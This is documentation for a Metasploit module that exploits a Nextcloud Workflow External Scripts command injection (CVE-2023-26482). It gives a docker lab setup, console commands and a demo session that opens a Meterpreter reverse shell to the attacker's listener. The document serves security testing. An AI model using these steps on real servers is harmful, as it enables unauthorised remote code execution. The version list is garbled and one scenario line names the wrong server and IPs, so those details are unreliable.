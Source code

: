 ## Description

This module exploits a command injection that leads to a remote execution in Nextcloud installations if the app Workflow External Scripts is also installed. 
The vulnerability affects Nextcloud versions >= 24.0.0, >= 25.0.0, >= 18.0.0, >= 19.0.0, >= 20.0.0, >= 21.0.0, >= 22.0.0, >= 23.0.0, >= 24.0.0, >= 25.0.0

A missing scope validation allowed users to create workflows which are designed to be only available for administrators. In combination with Workflow External Script, this vulnerability
leads to authenticated remote command execution.

More about the vulnerability detail: [CVE-2023-26482](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-26482).

The module will automatically use `cmd/linux/http/x64/meterpreter/reverse_tcp` payload.

The module will check if the target is vulnerable, by adding and removing a dummy-workflow.


## Vulnerable Application

[Nextcloud](https://nextcloud.com/) is a suite of client-server software for creating and using file hosting services.

This module has been tested successfully on Nextcloud versions:

* Nextcloud version 24.0.5

### Source and Installers

* [Source Code Repository](https://github.com/nextcloud/server/releases/tag/v24.0.5)
* [Docker](https://hub.docker.com/_/nextcloud)

### Docker Installation

This exploit was tested using a [nextcloud docker container](https://hub.docker.com/_/nextcloud) and [docker-compose](https://docs.docker.com/compose/)
with the following docker-compose.yml:

```yaml
volumes:
  nextcloud:
  db:

services:
  db:
    image: mariadb:10.6
    restart: always
    command: --transaction-isolation=READ-COMMITTED --log-bin=binlog --binlog-format=ROW
    volumes:
      - db:/var/lib/mysql
    environment:
      - MARIADB_ROOT_PASSWORD=root
      - MARIADB_PASSWORD=root
      - MARIADB_DATABASE=nextcloud
      - MARIADB_USER=nextcloud

  app:
    image: nextcloud:24.0.5
    restart: always
    ports:
      - 8080:80
    links:
      - db
    environment:
      - MYSQL_PASSWORD=root
      - MYSQL_DATABASE=nextcloud
      - MYSQL_USER=root
      - MYSQL_HOST=db
      - NEXTCLOUD_ADMIN_PASSWORD=admin
      - NEXTCLOUD_ADMIN_USER=admin
      - NEXTCLOUD_TRUSTED_DOMAINS="192.168.233.64:8080"
    depends_on:
      - db
```

**_NOTE:_** Change the IP-address and port for NEXTCLOUD_TRUSTED_DOMAINS for your setup

After `docker compose up -d` login as admin and install the workflow app: "Workflow external script" and
create a low privileged user `alice`. Make sure that you choose "Cron(Recommended)" in the Settings for "Background Jobs".
Before we can run the exploit, we need to start the cronjob. This is crucial because otherwise the
payload doesn't get triggered:

```
docker exec -it -u www-data nextcloud-app-1 /bin/bash
watch -n2 php cron.php
```

Wait until you the watch-command outputs something like: "Every 2.0s: php cron.php". 

## Verification Steps
Example steps in this format (is also in the PR):

1. Do: `use exploit/unix/webapp/nextcloud_workflows_rce`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `set RPORT 8080`
5. Do: `set USERNAME alice`
6. Do: `set PASSWORD alice-password`
7. Do: `run`
8. You should get a shell after a while

## Options

### TARGETURI

Remote web path to the nextcloud installation (default: /)

### USERNAME

The low-privileged username to authenticate to nextcloud

### PASSWORD

The password for the low-privileged user

## Scenarios

In this scenario the zoneminder-server has the IP address 192.42.0.254. The IP address of the metasploit host is
192.42.1.188.

### Nextcloud 24.0.5(docker-compose) 

The following demo shows how to use the exploit:

```
msf > use exploit/unix/webapp/nextcloud_workflows_rce
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(unix/webapp/nextcloud_workflows_rce) > set RHOSTS 192.168.233.64
RHOSTS => 192.168.233.64
msf exploit(unix/webapp/nextcloud_workflows_rce) > set LHOST 192.168.233.117
LHOST => 192.168.233.117
msf exploit(unix/webapp/nextcloud_workflows_rce) > set RPORT 8080
RPORT => 8080
msf exploit(unix/webapp/nextcloud_workflows_rce) > set USERNAME alice
USERNAME => alice
msf exploit(unix/webapp/nextcloud_workflows_rce) > set PASSWORD CaeD4ohchaiv5ieDooBa
PASSWORD => CaeD4ohchaiv5ieDooBa
msf exploit(unix/webapp/nextcloud_workflows_rce) > run
[*] Started reverse TCP handler on 192.168.233.117:4444
[*] Sending payload..
[+] Workflow created
[*] Waiting for the payload to connect back ..
[*] Sending stage (3045380 bytes) to 192.168.233.64
[*] Meterpreter session 1 opened (192.168.233.117:4444 -> 192.168.233.64:37090) at 2025-04-10 13:27:49 +0000
[+] Payload connected!
[*] Cleaning up

meterpreter > getuid
Server username: www-data
```

## Limitations
Ensure that your `WfsDelay` advanced option is set to a value that allows `cron` to execute the payload. Default is 16 minutes
